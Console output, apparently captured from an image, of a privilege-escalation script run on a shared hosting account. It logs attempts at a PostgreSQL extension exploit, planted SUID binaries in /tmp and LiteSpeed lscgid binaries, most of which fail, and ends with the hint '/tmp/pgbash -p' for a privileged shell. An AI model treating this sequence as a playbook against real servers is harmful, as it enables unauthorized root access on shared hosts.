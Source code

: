 [+] PostgreSQL Privilege Escalation
[+] Time: 2025-06-08 03:31:52

[*] Trying PostgreSQL connections...

[*] Creating PostgreSQL extension exploit...

[*] Looking for PostgreSQL config files...

[*] Attempting to become postgres user...
sh: su: command not found

[*] Checking for created SUID files...

[+] PostgreSQL exploitation complete.
[!] Try: /tmp/pgbash -p


---------------------------------------------------

[+] SUID Binary Exploitation

[*] Checking SUID binaries...
-rwsr-sr-x 1 igsbmzes igsbmzes 18200 Jun  8 05:26 /home/igsbmzes/.cagefs/tmp/suid
-rwsr-sr-x 1 igsbmzes igsbmzes 18200 Jun  8 05:26 /tmp/suid

[*] Executing /tmp/suid...
sh: /tmp/suid: Permission denied

[*] Trying with different methods...
Array
(
)
/tmp/run_suid.sh: line 2: /tmp/suid
: No such file or directory

[*] Checking current privileges...
uid=1067(igsbmzes) gid=1072(igsbmzes) groups=1072(igsbmzes)
igsbmzes

[*] Creating additional SUID exploits...

[*] Exploiting LiteSpeed SUID binaries...
[+] Found: /usr/local/lsws/bin/lscgid
2025-06-08 05:29:28.128753 lscgid: secret is not set properly!
[+] Found: /usr/local/lsws/bin/lscgid.6.1.2
2025-06-08 05:29:28.133476 lscgid: secret is not set properly!
[+] Found: /usr/local/lsws/bin/lscgid.6.2
2025-06-08 05:29:28.137458 lscgid: secret is not set properly!
[+] Found: /usr/local/lsws/bin/lscgid.6.2.1
2025-06-08 05:29:28.141875 lscgid: secret is not set properly!
[+] Found: /usr/local/lsws/bin/lscgid.6.2.2
2025-06-08 05:29:28.146701 lscgid: secret is not set properly!
[+] Found: /usr/local/lsws/bin/lscgid.6.3
2025-06-08 05:29:28.167209 lscgid: secret is not set properly!
[+] Found: /usr/local/lsws/bin/lscgid.6.3.1
2025-06-08 05:29:28.171784 lscgid: secret is not set properly!
[+] Found: /usr/local/lsws/bin/lscgid.6.3.2
2025-06-08 05:29:28.174740 lscgid: secret is not set properly!
